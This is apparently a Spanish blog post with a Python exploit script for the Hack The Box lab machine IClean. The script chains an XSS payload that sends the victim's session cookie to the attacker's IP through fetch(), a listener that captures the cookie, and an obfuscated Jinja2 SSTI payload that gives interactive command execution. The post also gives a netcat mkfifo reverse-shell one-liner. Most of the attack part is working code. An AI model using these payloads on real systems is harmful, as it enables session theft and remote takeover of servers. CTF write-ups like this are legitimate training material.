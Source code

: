 ```yaml
---

title: ICleanHTB 
date: 2024-04-13 07:03 +0800
categories: [Scripts]
tags: [Scripts, HTB]
pin: true
image:
  path: /assets/img/commons/ICleanHTB/bannerICleanHTB.png
  width: 66
  height: 40
  alt: IClean
---
```


Este script se aprovecha un XSS y un SSTI en la máquina IClean de HTB.

   1. El endPoint `/sendMessage` es vulnerable a XSS, realizamos una petición a un servidor en nuestra máquina
   2. Creamos un servidor, se recibe una cookie de session.
   3. Con la cookie podemos acceder a `/QRGenerator`, la variable `qr_link` es vulnerable a SSTI, y podemos realizar ejecución de comandos.
   4. Revshells nc mkfifo -> `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc IP PORT >/tmp/f`

<figure style="text-align: center;">
  <img src="/assets/img/commons/ICleanHTB/ICleanHTB.png" alt="VMnet_lab">
  <figcaption style="font-style: italic; font-size: smaller;"></figcaption>
</figure>

-----------------------------------------------------------------------------------------------

```python
#!/usr/bin/env python3

import requests
import sys
import re
import socket
import signal
from termcolor import colored
from urllib.parse import quote
from http.server import BaseHTTPRequestHandler, HTTPServer

miIP = "10.10.16.9"
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36',
}

def def_handler(sig, frame):
    print(colored(f"\n[!] Saliendo...\n", 'red'))
    sys.exit(1)
signal.signal(signal.SIGINT, def_handler)

def serverPY():
    host = ''
    port = 80
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.bind((host, port))
        s.listen(1)
        print(colored(f"\n\t[+] Server Python: ", 'blue'))
        conn, addr = s.accept()
        print(f"\t\t- Conexión: {addr}, Cookie Recibida")
        received_data = b""
        while True:
            data = conn.recv(1024)
            if not data:
                break
            received_data += data
        decoded_data = received_data.decode('utf-8')
        session_index = decoded_data.find('session=')
        if session_index != -1:
            session_content = decoded_data[session_index + len('session='):]
            cookieRC = session_content.split()[0]
            print(f'\t\t- Cookie: {cookieRC}')
        return cookieRC

def exCookie():
    urlCookie = "http://capiclean.htb/sendMessage"
    data = {
        'service' : f'<img src=x onerror=fetch("http://{miIP}/"+document.cookie);>',
        'email' : 'test@test.com',
    }
    r = requests.post(urlCookie, headers=headers, data=data)

def sttiPost(cookieRC, headers):
    while True:
        command = input(colored("\n\t[+] Command -> ", 'blue'))
        url = 'http://capiclean.htb/QRGenerator'

        cookies = {
            'session': f"{cookieRC}"
        }
        data = {
            'invoice_id': '',
            'form_type': 'scannable_invoice',
            'qr_link': '{{"{{"}}request\\|attr(\'application\')|attr(\'\\x5f\\x5fglobals\\x5f\\x5f\')|attr(\'\\x5f\\x5fgetitem\\x5f\\x5f\')(\'\\x5f\\x5fbuiltins\\x5f\\x5f\')|attr(\'\\x5f\\x5fgetitem\\x5f\\x5f\')(\'\\x5f\\x5fimport\\x5f\\x5f\')(\'os\')|attr(\'popen\')(\'id\')|attr(\'read\')()}}'.replace('id', command)
        }
        response = requests.post(url, headers=headers, cookies=cookies, data=data)
        response_text = response.text
        filterResponse = re.search(r'<div class="qr-code-container">.*?<img src="(data:image\/png;base64,.*?)".*?>', response_text, re.DOTALL)
        filterClean = filterResponse.group(1)
        match = filterClean.replace("data:image/png;base64,", "")
        if match:
            print("\t\t $>", match) 
        else:
            print("No se encontró el código de la imagen base64.")
        continue

def main():
    print(colored(f"\n[+] Este script se aprovecha de la vulnerabilidad XSS y SSTI en la máquina ICLEAN", 'green'))
    exCookie()
    cookie_rc = serverPY()
    sttiPost(cookie_rc, headers)

if __name__ == '__main__':
    main()
```
